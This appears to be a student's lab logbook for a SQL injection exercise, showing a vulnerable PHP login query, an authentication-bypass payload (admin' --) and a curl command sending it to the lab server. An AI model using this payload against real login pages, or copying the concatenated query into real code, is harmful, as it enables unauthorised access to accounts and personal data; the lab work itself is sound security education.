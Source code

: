 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.


## Task 2

In this attack, we were presented to the php file that is being ran under the server side

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);


```

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin' -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’ -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

